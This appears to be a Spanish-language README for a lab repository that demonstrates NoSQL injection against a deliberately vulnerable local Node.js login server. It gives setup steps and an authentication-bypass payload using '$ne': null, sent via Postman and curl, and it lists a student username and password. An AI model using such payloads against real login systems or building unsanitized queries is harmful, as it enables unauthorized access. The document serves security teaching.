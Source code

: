 # NoSQL-Inyection

## Instalación y Ejecución (Linux y Windows)

### 1. Clonar el repositorio
Abre una terminal y ejecuta el siguiente comando:
```sh
git clone https://github.com/JavierNila/NoSQL-Inyection.git
cd NoSQL-Inyection
```

### 2. Instalar dependencias
Ejecuta el siguiente comando dentro de la carpeta del proyecto:
```sh
npm install
npm install cors
```
Esto instalará todas las dependencias necesarias definidas en `package.json`, incluyendo `cors` para evitar errores relacionados con políticas de seguridad del navegador.

### 3. Ejecutar el servidor
Inicia el backend con:
```sh
node server.js
```
El servidor correrá en `http://localhost:3000`.

### 4. Abrir el frontend
- Abre el archivo `index.html` en el navegador.

## Uso de la Aplicación
1. Ingresa un usuario y una contraseña en la interfaz web (`index.html`).
2. Al presionar "Ingresar", el formulario enviará una solicitud `POST` al backend (`server.js`) en `http://localhost:3000/login`.
3. Para probar la inyección NoSQL, se puede utilizar una herramienta como Postman o `curl`.

### Prueba con Postman
- Abre Postman y crea una nueva solicitud `POST` a `http://localhost:3000/login`.
- En el apartado "Body", selecciona "raw" y el tipo `JSON`.
- Ingresa la siguiente carga útil:
  ```json
  {
    "username": { "$ne": null },
    "password": { "$ne": null }
  }
  ```
- Envía la solicitud y verifica que la autenticación se realice sin credenciales válidas.

### Prueba con curl
También puedes enviar la inyección desde la terminal con:
```sh
curl -X POST http://localhost:3000/login -H "Content-Type: application/json" -d '{"username": { "$ne": null }, "password": { "$ne": null }}'
```
Esto permitirá autenticarse sin credenciales válidas debido a la vulnerabilidad NoSQL Injection.

## Nota Importante
Las credenciales otorgadas (`username: student`, `password: dPgF0sb0ADBUZHCI`) no funcionan por razones desconocidas.

